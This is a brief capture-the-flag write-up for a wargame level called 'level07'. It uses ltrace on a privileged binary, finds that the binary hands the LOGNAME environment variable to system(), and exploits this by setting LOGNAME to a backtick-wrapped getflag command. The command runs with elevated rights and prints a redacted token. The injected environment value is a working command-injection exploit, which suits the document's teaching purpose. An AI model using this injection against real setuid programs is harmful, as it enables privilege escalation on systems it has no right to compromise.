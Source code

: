here we have a executable who only print "level07"

```sh
$: ./level07
level07
```

**we try to learn more about the executable with trace command**

```sh
$: ltrace ./level07
RESULT: 
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                       = 2007
geteuid()                                                       = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)             = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)             = 0
getenv("LOGNAME")                                               = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff60, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                          = 0
+++ exited (status 0) +++
```

**we see that the executable get the "level07" string from the LOGNAME env variable**
**so we will make the program echo the result of the getflag command**

```sh
$: LOGNAME=\`getflag\` ./level07
check flag.Here is your token : *******flag********
```

